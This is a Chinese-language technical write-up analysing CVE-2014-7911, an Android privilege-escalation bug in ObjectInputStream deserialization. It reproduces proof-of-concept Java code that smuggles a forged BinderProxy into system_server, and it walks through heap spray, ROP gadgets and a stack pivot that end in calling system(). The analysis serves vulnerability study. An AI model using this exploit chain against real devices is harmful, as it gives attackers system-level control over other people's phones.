


概述
前面我们了解了Android Binder机制的基本原理，当然仅仅了解是不够的，我们要做到：Know it and hack it。这篇文章我们就来分析一个和Binder相关的漏洞：CVE-2014-7911。这是由Jann Horn发现的一个Android本地提权漏洞，能够使普通应用的权限提升到System权限，影响Android5.0以下版本。这个漏洞是非常值得Android安全研究人员学习的一个漏洞，因为这个漏洞涉及到Android Binder，Java序列化，Dalvik GC机制，Heap spary，ROP，Stack pivot等知识，很有学习价值。
漏洞成因
java层
这个漏洞的成因在于在Android<5.0的版本中，java.io.ObjectInputStream并未校验输入的java对象是否是可序列化的。攻击者可以构建一个不可序列化的对象实例，并且构建恶意的成员变量，当该对象被ObjectInputStream反序列化的时候，就会发生类型混淆，其成员变量被当做本地代码的指针，使攻击者可以获得程序的控制权。
具体的来说，是android.os.BinderProxy这个类，本身是不可序列化的，在系统GC的时候，会调用到它的finalize方法，在这个方法中调用到了一个指针，而这个指针正好可以被我们控制，所以可以通过构造恶意的指针来达到代码执行。下面我们结合jann Horn的Poc具体分析下漏洞成因：
首先构造一个可序列化的对象。
1 | package AAdroid.os; |
这里定义了一个AAdroid.os.BinderProxy对象，并且实现了Serializable接口，使得这个类可序列化，因为我们需要现将这个类放入到Bundle中才能传入到system_server进程，在传入的过程中修改它的类型位android.os.BinderProxy，这样在system_server反序列化的时候就会触发异常。我们继续看发送函数：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41private void exploit(int staticAddr) {
Context context = getBaseContext();
try {
Bundle bundle = new Bundle();
BinderProxy evilProxy = new BinderProxy();
bundle.putSerializable("eatthis", evilProxy);
Class stubClass = null;
for (Class inner : Class.forName("android.os.IUserManager").getDeclaredClasses()) {
if (inner.getCanonicalName().equals("android.os.IUserManager.Stub")) {
stubClass = inner;
}
}
Field TRANSACTION_setApplicationRestrictionsField = stubClass.getDeclaredField("TRANSACTION_setApplicationRestrictions");
TRANSACTION_setApplicationRestrictionsField.setAccessible(true);
TRANSACTION_setApplicationRestrictions = TRANSACTION_setApplicationRestrictionsField.getInt(null);
Class proxyClass = null;
for (Class inner : stubClass.getDeclaredClasses()) {
if (inner.getCanonicalName().equals("android.os.IUserManager.Stub.Proxy")) {
proxyClass = inner;
}
}
UserManager userManager = (UserManager) context.getSystemService(Context.USER_SERVICE);
Field mServiceField = UserManager.class.getDeclaredField("mService");
mServiceField.setAccessible(true);
Object mService = mServiceField.get(userManager);
Field mRemoteField = proxyClass.getDeclaredField("mRemote");
mRemoteField.setAccessible(true);
mRemote = (IBinder) mRemoteField.get(mService);
UserHandle userHandle = android.os.Process.myUserHandle();
setApplicationRestrictions(context.getPackageName(), bundle, userHandle.hashCode());
}
catch (Exception e) {
e.printStackTrace();
}
}
这里通过一系列的反射来获取android.os.IUserManager.Stub.Proxy.mRemote类，IUserManager对象是AIDL自动生成的，在UserManager中定义了一个实例。1
2
3
4
5
6
7public class UserManager {
private static String TAG = "UserManager";
private final IUserManager mService;
private final Context mContext;
...
}
通过反射获取到这个实例的mRemote对象，我们前面已经知道在Binder客户端的mRemote其实是一个BinderProxy类，这个类的transact函数将方法描述符和参数传递给服务端，进行远程调用。所以这里获得这个对象其实就是为了像servermanager传递我们构造的恶意对象，为什么要传递给servermanager呢，这是因为servermanager拥有system权限，把对象传递给它，servermanager在反序列化时发生类型混淆，我们就可以在servermanager进程用system权限执行代码。所以通过前面我们了解到，这里的客户端和服务端包括发送的恶意对象的类都不是固定的，因为漏洞的关键点不在这两个类中而是在ObjectInputStream这个类中，所以只要满足能够触发漏洞的条件即可。下面我们具体来看发送对象的过程中做了什么工作：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31private void setApplicationRestrictions(java.lang.String packageName, android.os.Bundle restrictions, int
userHandle) throws android.os.RemoteException
{
android.os.Parcel _data = android.os.Parcel.obtain();
android.os.Parcel _reply = android.os.Parcel.obtain();
try {
_data.writeInterfaceToken(DESCRIPTOR);
_data.writeString(packageName);
_data.writeInt(1);
restrictions.writeToParcel(_data, 0);
_data.writeInt(userHandle);
byte[] data = _data.marshall();
for (int i=0; true; i++) {
if (data[i] == 'A' && data[i+1] == 'A' && data[i+2] == 'd' && data[i+3] == 'r') {
data[i] = 'a';
data[i+1] = 'n';
break;
}
}
_data.recycle();
_data = Parcel.obtain();
_data.unmarshall(data, 0, data.length);
mRemote.transact(TRANSACTION_setApplicationRestrictions, _data, _reply, 0);
_reply.readException();
}
finally {
_reply.recycle();
_data.recycle(); }
}
可以看到这个函数和一般的Binder客户端发送数据的方法很类似，区别在于这里面有这样一段代码：1
2
3
4
5
6
7
8
9
10
11byte[] data = _data.marshall();
for (int i=0; true; i++) {
if (data[i] == 'A' && data[i+1] == 'A' && data[i+2] == 'd' && data[i+3] == 'r') {
data[i] = 'a';
data[i+1] = 'n';
break;
}
}
_data.recycle();
_data = Parcel.obtain();
_data.unmarshall(data, 0, data.length);
这里首先调用要发送的parcel对象的marshall方法，作用类似序列化，获得一个byte[]数组。然后将这个数组中的”AAdr”修改成”andr”。我们前面知道要传输的对象的类型是AAdroid.os.BinderProxy，所以这里相当于把对象类型修改成了android.os.BinderProxy，这样就成功发送了恶意的对象。为什么要转换成BinderProxy对象呢，前面说这个对象不是固定的，只要能触发漏洞的条件即可，那么这个对象为什么能触发漏洞条件呢，我们下面会具体分析。
安装Poc，启动Activity后将其最小化，触发GC，这会引起system_manager崩溃并重启，logcat日志类似下面这样。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
2205-14 18:30:55.974: I/DEBUG(3695): Build fingerprint: 'google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys'
05-14 18:30:55.974: I/DEBUG(3695): Revision: '11'
05-14 18:30:55.974: I/DEBUG(3695): pid: 1552, tid: 1560, name: FinalizerDaemon >>> system_server <<<
05-14 18:30:55.974: I/DEBUG(3695): signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 1337bef3
05-14 18:30:56.064: I/DEBUG(3695): r0 1337beef r1 401b89d9 r2 746fdad8 r3 6d4fbdc4
05-14 18:30:56.064: I/DEBUG(3695): r4 401b89d9 r5 1337beef r6 713e3f68 r7 1337beef
05-14 18:30:56.064: I/DEBUG(3695): r8 1337beef r9 74709f68 sl 746fdae8 fp 74aacb24
05-14 18:30:56.064: I/DEBUG(3695): ip 401f08a4 sp 74aacae8 lr 401b7981 pc 40105176 cpsr 200d0030
...
I/DEBUG ( 241): backtrace:
I/DEBUG ( 241): #00 pc 0000d176 /system/lib/libutils.so (android::RefBase::decStrong(void const*) const+3)
I/DEBUG ( 241): #01 pc 0007097d /system/lib/libandroid_runtime.so
I/DEBUG ( 241): #02 pc 0001dbcc /system/lib/libdvm.so (dvmPlatformInvoke+112)
I/DEBUG ( 241): #03 pc 0004e123 /system/lib/libdvm.so (dvmCallJNIMethod(unsigned int const*, JValue*, Method const*, Thread*)+398)
I/DEBUG ( 241): #04 pc 00026fe0 /system/lib/libdvm.so
I/DEBUG ( 241): #05 pc 0002dfa0 /system/lib/libdvm.so (dvmMterpStd(Thread*)+76)
I/DEBUG ( 241): #06 pc 0002b638 /system/lib/libdvm.so (dvmInterpret(Thread*, Method const*, JValue*)+184)
I/DEBUG ( 241): #07 pc 0006057d /system/lib/libdvm.so (dvmCallMethodV(Thread*, Method const*, Object*, bool, JValue*, std::__va_list)+336)
I/DEBUG ( 241): #08 pc 000605a1 /system/lib/libdvm.so (dvmCallMethod(Thread*, Method const*, Object*, JValue*, ...)+20)
I/DEBUG ( 241): #09 pc 00055287 /system/lib/libdvm.so
I/DEBUG ( 241): #10 pc 0000d170 /system/lib/libc.so (__thread_entry+72)
I/DEBUG ( 241): #11 pc 0000d308 /system/lib/libc.so (pthread_create+240)
这里看到servermanager崩溃的原因是访问了异常的内存地址，而这个地址0x1337bef3和我们前面在序列化对象中设置的0x1337beef很接近。下面我们就具体分析在native层漏洞触发的原因。
Native层
我们前面说到，android.os.BinderProxy这个对象本身是不可序列化的，但是因为ObjectInputStream这个对象在反序列化时没有做校验，造成了类型混淆(type confusion)漏洞。BinderProxy的filed被Native代码处理成指针，这个filed就是我们在代码中设置的mOrgue。
BinderProxy的finalize方法调用了native代码，将mOruge处理成指针。1
2
3
4
5
6
7
8
protected void finalize() throws Throwable {
try {
destroy();
} finally {
super.finalize();
}
}
反序列化的时候调用到java.io.ObjectInputStream对象的readObject()方法，这个方法从输入流中读取出对象，也就是我们定义的BinderProxy对象。这个对象被创建后，因为代码中没有再引用它，所以它会进入到”可复活状态”，准备被GC回收，在回收前就会调用到它的finalize()方法。
更多关于java GC的内容可以自行在网上查阅
这里的destroy()是一个本地方法。1
private native final void destroy();
它对应的native方法为：1
2
3
4
5
6
7
8
9
10
11
12
13static void android_os_BinderProxy_destroy(JNIEnv* env, jobject obj)
{
IBinder* b = (IBinder*)
env->GetIntField(obj, gBinderProxyOffsets.mObject);
DeathRecipientList* drl = (DeathRecipientList*)
env->GetIntField(obj, gBinderProxyOffsets.mOrgue);
LOGDEATH("Destroying BinderProxy %p: binder=%p drl=%p\n", obj, b, drl);
env->SetIntField(obj, gBinderProxyOffsets.mObject, 0);
env->SetIntField(obj, gBinderProxyOffsets.mOrgue, 0);
drl->decstrong((void*)javaobjectforibinder);
b->decStrong((void*)javaObjectForIBinder);
IPCThreadState::self()->flushCommands();
}
这里的1
2DeathRecipientList* drl = (DeathRecipientList*)
env->GetIntField(obj, gBinderProxyOffsets.mOrgue);
将gBinderProxyoffsets.mOrgue转换成一个DeathRecipientList*对象的指针，而gBinderProxyoffsets.mOrgue是在int_register_android_os_BinderProxy中完成初始化。1
2gBinderProxyOffsets.mObject = env->GetFieldID(clazz, "mObject", "I");
gBinderProxyOffsets.mOrgue = env->GetFieldID(clazz, "mOrgue", "I");
所以可以看到我们设置的mOrgue被处理成了一个对象指针。而之后调用了这个对象的方法。1
drl->decstrong((void*)javaobjectforibinder);
这个方法的定义在DeathRecipientList的父类RefBase中。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17void RefBase::decStrong(const void* id) const
{
weakref_impl* const refs = mRefs;
refs->removeStrongRef(id);
const int32_t c = android_atomic_dec(&refs->mStrong);
ALOGD("decStrong of %p from %p: cnt=%d\n", this, id, c);
ALOG_ASSERT(c >= 1, "decStrong() called on %p too many times", refs);
if (c == 1) {
refs->mBase->onLastStrongRef(id);
if ((refs->mFlags&OBJECT_LIFETIME_MASK) == OBJECT_LIFETIME_STRONG) {
delete this;
}
}
refs->decWeak(id);
}
这里的mRefs是RefBase对象中第一个成员变量，可以看到RefBase的定义如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101class RefBase
{
public:
void incStrong(const void* id) const;
void decStrong(const void* id) const;
void forceIncStrong(const void* id) const;
//! DEBUGGING ONLY: Get current strong ref count.
int32_t getStrongCount() const;
class weakref_type
{
public:
RefBase* refBase() const;
void incWeak(const void* id);
void decWeak(const void* id);
// acquires a strong reference if there is already one.
bool attemptIncStrong(const void* id);
// acquires a weak reference if there is already one.
// This is not always safe. see ProcessState.cpp and BpBinder.cpp
// for proper use.
bool attemptIncWeak(const void* id);
//! DEBUGGING ONLY: Get current weak ref count.
int32_t getWeakCount() const;
//! DEBUGGING ONLY: Print references held on object.
void printRefs() const;
//! DEBUGGING ONLY: Enable tracking for this object.
// enable -- enable/disable tracking
// retain -- when tracking is enable, if true, then we save a stack trace
// for each reference and dereference; when retain == false, we
// match up references and dereferences and keep only the
// outstanding ones.
void trackMe(bool enable, bool retain);
};
weakref_type* createWeak(const void* id) const;
weakref_type* getWeakRefs() const;
//! DEBUGGING ONLY: Print references held on object.
inline void printRefs() const { getWeakRefs()->printRefs(); }
//! DEBUGGING ONLY: Enable tracking of object.
inline void trackMe(bool enable, bool retain)
{
getWeakRefs()->trackMe(enable, retain);
}
typedef RefBase basetype;
protected:
RefBase();
virtual ~RefBase();
//! Flags for extendObjectLifetime()
enum {
OBJECT_LIFETIME_STRONG = 0x0000,
OBJECT_LIFETIME_WEAK = 0x0001,
OBJECT_LIFETIME_MASK = 0x0001
};
void extendObjectLifetime(int32_t mode);
//! Flags for onIncStrongAttempted()
enum {
FIRST_INC_STRONG = 0x0001
};
virtual void onFirstRef();
virtual void onLastStrongRef(const void* id);
virtual bool onIncStrongAttempted(uint32_t flags, const void* id);
virtual void onLastWeakRef(const void* id);
private:
friend class weakref_type;
class weakref_impl;
RefBase(const RefBase& o);
RefBase& operator=(const RefBase& o);
private:
friend class ReferenceMover;
static void renameRefs(size_t n, const ReferenceRenamer& renamer);
static void renameRefId(weakref_type* ref,
const void* old_id, const void* new_id);
static void renameRefId(RefBase* ref,
const void* old_id, const void* new_id);
weakref_impl* const mRefs;
};
而这里mRefBase是DeathRecipientList对象的父类，我们知道在C++中，对象的内存布局是先放置父类，然后放置自己的成员。而一个对象中方法是不占空间的，如果有虚函数会有一个虚函数表的地址(4字节)放置在对象的最开始，然后放置各个成员变量。这个类是有虚函数的，所以这里的mRefs变量的地址是DeathRecipientList对象也就是我们设置的mOrgue指针指向地址+4。
更多关于C++对象内存分布的资料可以在网上查阅
refs是一个weakref_impl类型的变量。weakref_impl是RefBase用来维护引用技术的类。它的定义如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33class RefBase::weakref_impl : public RefBase::weakref_type
{
public:
volatile int32_t mStrong;
volatile int32_t mWeak;
RefBase* const mBase;
volatile int32_t mFlags;
weakref_impl(RefBase* base)
: mStrong(INITIAL_STRONG_VALUE)
, mWeak(0)
, mBase(base)
, mFlags(0)
{
}
void addStrongRef(const void* /*id*/) { }
void removeStrongRef(const void* /*id*/) { }
void renameStrongRefId(const void* /*old_id*/, const void* /*new_id*/) { }
void addWeakRef(const void* /*id*/) { }
void removeWeakRef(const void* /*id*/) { }
void renameWeakRefId(const void* /*old_id*/, const void* /*new_id*/) { }
void printRefs() const { }
void trackMe(bool, bool) { }
weakref_impl(RefBase* base)
: mStrong(INITIAL_STRONG_VALUE)
, mWeak(0)
...
在decStrong函数中最后调用到了refs->mBase->onLastStrongRef(id)函数。从前面可以看到，这里的ref->mBase我们是可控的，所以通过构造特殊的内存布局我们就可以执行任意代码。
汇编代码分析
为了更方便理解漏洞成因，这里再分析一下decStrong函数对应的汇编代码。使用IDA导入libutils.so，然后找到Android::RefBase::decStrong函数。这里我们已经可以控制的是r0寄存器(this指针)。

首先是对r0的使用：1
2
3weakref_impl* const refs = mRefs;
refs->removeStrongRef(id);
const int32_t c = android_atomic_dec(&refs->mStrong);
对应的汇编代码如下：1
2
3
4ldr r4, [r0, #4] # r0为this指针，r4为mRefs
mov r6, r1
mov r0, r4 #r4指向mStrong，r0指向mStrong
blx <android_atomic_dec ()>
这里的r4就是mRefs的地址，前面我们已经分析过了。然后调用了android_atomic_dec函数，传入的参数是&refs->mStrong。refs是一个weakref_impl类，weakref_impl类没有虚函数，mStrong是它的第一个成员变量，所以mStrong的地址就是refs的地址。另外，refs->removeStrongRef(id);这一行并没有出现在汇编代码中，因为这个函数为空实现，编译器进行了优化。如下所示：1
void removeStrongRef(const void* /*id*/) { }
调用完android_atomic_dec后，继续执行下面的代码。1
2
3if (c == 1) {
refs->mBase->onLastStrongRef(id);
}
对应的汇编代码：1
2
3
4
5
6
7cmp r0, #1 # r0 = refs->mStrong
bne.n d1ea
ldr r0, [r4, #8] # r4 = &refs->mStrong
mov r1, r6
ldr r3, [r0, #0]
ldr r2, [r3, #12]
blx r2
注意，android_atomic_dec函数执行强引用计数减1，返回的是执行减1操作之前所指定的内存地址存放的值。为了调用refs->mBase->onLastStrongRef(id)(即：blx r2)，攻击者需要使refs->mStrong为1。
至此，可以看出攻击者为了实现代码执行，需要满足如下约束条件：
- drl(就是mOrgue，第一个可控的指针，在进入decStrong函数时的r0)必须指向可读的内存区域;
- refs->mStrong必须为1;
- refs->mBase->onLastStrongRef(id)需要执行成功。并最终指向可执行的内存区域。即满足：
1
2
3
4
5if(*(*(mOrgue+4)) == 1) {
refs = *(mOrgue+4);
r2 = *(*(*(refs+8))+12);
blx r2 ; <—— controlled;
}
除此以外，攻击者还必须克服Android中的漏洞缓解技术——ASLR和DEP。
漏洞利用
这里结合retme7公开的Poc分析如何利用这个漏洞。
绕过ASLR
虽然Android上有地址空间随机化(ASLR)，但是因为所有app都是fork自zygote进程，所以基础模块和dalvik-heap的内存布局全都是相同的。可以分析自己的内存布局获得system-server的内存布局，然后使用基础模块构建ROP链就可以绕过ASLR。1
2
3
4shell@hammerhead:/ # cat /proc/10156/maps | grep dalvik-heap
4273c000-616da000 rw-p 00000000 00:04 32910 /dev/ashmem/dalvik-heap (deleted)
shell@hammerhead:/ # cat /proc/18446/maps | grep dalvik-heap
4273c000-616da000 rw-p 00000000 00:04 32910 /dev/ashmem/dalvik-heap (deleted)
Dalvik-heap spary
为了能让blx r2这条执行能够可靠稳定的跳转到攻击者可控的代码，需要利用堆喷射技术，在system_server内存空间的dalvik-heap中预先布置大量的Spray Buffer, 其中放置提权代码以及大量指向该提权代码的地址。这涉及到两个问题。
- 如何向sysetem_server的dalvik-heap空间传入可控字符串？
- 如何在dalvik-heap中布局这些可控字符串，才能在每次漏洞利用时都稳定执行代码？
对于第一个问题，我们知道system_server向android系统提供绝大多数的系统服务，通过这些服务的一些特定方法可以向system_server传入String，同时system_server把这些String存储在Dalvik-heap中，在GC之前都不会销毁。例如，下面android.content.Context中的registerReceiver方法1
public Intent registerReceiver (BroadcastReceiver receiver, IntentFilter filter, String broadcastPermission, Handler scheduler)
其中broadcastPermission为String类型，调用该方法后，String Buffer将常驻system_server进程空间。具体调用链见1
ContextWrapper.registerReceiver->ContextImpl.registerReceiver->ContextImpl.registerReceiverInternal->ActivityManagerProxy.registerReceiver->ActivityManagerService.registerReceiver
该调用链表明可从某个app的Context通过binder IPC跨进程调用system_server的ActivityManagerService.registerReceiver方法，注意ActivityManagerService常驻system_server进程空间。我们再看看ActivityManagerService的registerReceiver方法1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17public Intent registerReceiver(IApplicationThread caller, String callerPackage, IIntentReceiver receiver, IntentFilter filter, String permission, int userId) {
enforceNotIsolatedCaller("registerReceiver");
int callingUid;
int callingPid;
synchronized(this) {
......
ReceiverList rl
= (ReceiverList)mRegisteredReceivers.get(receiver.asBinder());
......
BroadcastFilter bf = new BroadcastFilter(filter, rl, callerPackage,
permission, callingUid, userId); //在Dalvik-heap中分配内存
rl.add(bf);
......
return sticky;
}
}
注意上面的new将在system_server进程的Dalvik-heap堆中分配内存，传入的String Buffer即permission将常驻system_server进程空间。这样，通过调用某些系统Api，第一个传入字符串的问题就解决了。
下面探讨第二个问题：如何在dalvik-heap中布局这些可控字符串，才能在每次漏洞利用时都能稳定执行代码？
根据前面的叙述，攻击者可控的mOrgue需要指向一个可读的内存区域，简单地让其指向传入registerReceiver方法permission参数String Buffer所属的地址区域并在String Buffer中布置ROP Gadget即可达到这个目的，但system_server在其dalvik-heap中分配String Buffer的偏移地址却是未知的，mOrgue未必能命中（指向）堆块中为String Buffer分配的内存。为了提高命中率，需要在dalvik-heap中分配大量的String Buffer，这就是Heap Spray(堆喷射)技术，反复调用registerReceiver方法分配大量的String Buffer即可完成Heap Spray。但是，String Buffer的地址在每次调用registerReceiver方法分配内存时都会不一样，这就需要构造一种特殊的堆喷射布局，包含递减的指针值，如图。

如图，每一个在堆中分配的内存块(chunk)，都包含Relative Address Chunk和Gadget_buffer两部分，目标是使可控的STATIC_ADDRESS（即mOrgue）位于Relative Address Chunk，并且使其存放的内容[STATIC_ADDRESS]=GADGET_BUFFER（即Gadget_buffer的地址）。简单的思路就是在每个chunk的relative Address Chunk中都放入GADGET_BUFFER，然而由于GADGET_BUFFER在每个chunk中都不一样，而且也无法在跨进程传入system_server之前提前知晓，因此该思路并不可行。
注意，GADGET_BUFFER = 堆底地址 + Gadget_buffer_offset(即Gadget_Buffer相对于堆底的偏移)。当STATIC_ADDRESS=堆底地址时，GADGET_BUFFER = STATIC_ADRRESS+Gadget_buffer_offset；考虑到四字节对齐，一般情况下，STATIC_ADDRESS=堆底地址+4N（N=1,2,…），此时GADGET_BUFFER = STATIC_ADDRESS + Gadget_buffer_offset - 4N。因此，在每一个Chunk的Relative Address Chunk区域按地址增长方向，依次在内存中填入STATIC_ADDRESS+Gadget_buffer_offset、STATIC_ADDRESS+Gadget_buffer_offset-4、…、STATIC_ADDRESS+Gadget_buffer_offset-4N。这样，给定一个STATIC_ADDRESS，只要能落入system_server在dalvik heap分配的Relative Addresses Chunk的地址范围(为了提高这个可能性，需要满足1.每一个Chunk的Relative Address Chunk比Gadget Buffer大很多；2.分配大量这样的Chunk），就总是存在[STATIC_ADDRESS]=GADGET_BUFFER，并满足[STATIC_ADDRESS+4N]=GADGET_BUFFER-4N（这个条件将在后面布置Gadget时用到）。
按照这样的布局，回过来再看汇编代码，布置Gadget_Buffer。1
2
3
4ldr r4, [r0, #4] # r0=STATIC_ADDRESS-->r4=[STATIC_ADDRESS+4]=GADGET_BUFFER-4
mov r6, r1
mov r0, r4 # r0=GADGET_BUFFER-4
blx <android_atomic_dec ()>
调用android_atomic_dec函数之后1
2
3
4
5
6
7cmp r0, #1 # r0 = [GADGET_BUFFER-4]
bne.n d1ea
ldr r0, [r4, #8] # r0 = [GADGET_BUFFER-4+8] = [GADGET_BUFFER+4]
mov r1, r6
ldr r3, [r0, #0] # r3 =[[GADGET_BUFFER+4]] = [STATIC_ADDRESS+12] = GADGET_BUFFER-12
ldr r2, [r3, #12] # r2 = [GADGET_BUFFER -12 +12] = [GADGET_BUFFER]
blx r2
首先，为了进入blx r2这条分支，r0必须等于1，也就是[GADGET_BUFFER-4]=1；其次，[GADGET_BUFFER+4]必须为一个合法可读的地址，为了方便之后的布局，我们令[GADGET_BUFFER+4]=STATIC_ADDRESS+12，因此r3 = [STATIC_ADDRESS+12]=GADGET_BUFFER-12,接下来r2=[r3+12]=[GADGET_BUFFER-12+12]=[GADGET_BUFFER]，程序将跳转到GADGET_BUFFER这个地址存放的内容执行，因此在这里就可以布置ROP Gadget1的地址了。至此，通过一种特殊布局的堆喷射，第二个代码稳定执行的问题也迎刃而解。
DEP
由于Android使用了DEP，因此Dalvik-heap上的内存不能用来执行，这就必须使用ROP技术，使PC跳转到一系列合法指令序列（Gadget），并由这些Gadget“拼凑”而成shellcode。这里我们将使用ROP Gadget调用system函数执行代码。
使用ROPGadget这个工具，在zygote加载的基础模块（如libc.so、libwebviewchromium.so、libdvm.so）上进行搜索，把arm code当做thumb code来搜索，可以增加更多的候选指令序列。
为了调用system函数，需要控制r0寄存器，指向我们预先布置的命令行字符串作为参数。这里需要使用Stack Pivot技术，将栈顶指针SP指向控制的Dalvik-heap堆中的数据，这将为控制PC寄存器、以及在栈上布置数据带来便利。利用1
ROPgadget --thumb --binary libwebviewchromium.so
可找到如下Gadget
Gadget1
1 | r5=STATIC_ADDRESS |
通过r1跳转到第二个gadget：1
2
3
4
5
6
7
8
9
10r7=GADGET_CHUNK_ADDR
add.w r7, r7, #8
r7=GADGET_CHUNK_ADDR + 8
mov sp, r7
sp = GADGET_CHUNK_ADDR + 8
pop {r4, r5, r7, pc}
r4=[GADGET_CHUNK_ADDR + 8]
r5=[GADGET_CHUNK_ADDR + 12]=system_addr
r7=[GADGET_CHUNK_ADDR + 16]
pc=[GADGET_CHUNK_ADDR + 20]
这里我提前将system函数的地址写入[GADGET_CHUNK_ADDR + 12]。
有一个问题，为什么要通过第一个gadget的过渡，才完成stack pivot？
答:事实上是不得已而为之，我用ROPgadget扫描了整个/system/lib目录下的基础模块的”mov sp, r”，只发现有mov sp, r7，所以只能采取这种过度的方式。
继续来到第三个gadget：1
2
3
4sp=[GADGET_CHUNK_ADDR + 24]
mov r0, sp
r5=system_addr
blx r5
如此，我们将命令字符串放在GADGET_CHUNK_ADDR + 24开始的空间就可以了，最终完成了对CVE-2014-7911漏洞的system权限提权，并执行任意代码。最后附上retme的Poc：
https://github.com/retme7/CVE-2014-7911_poc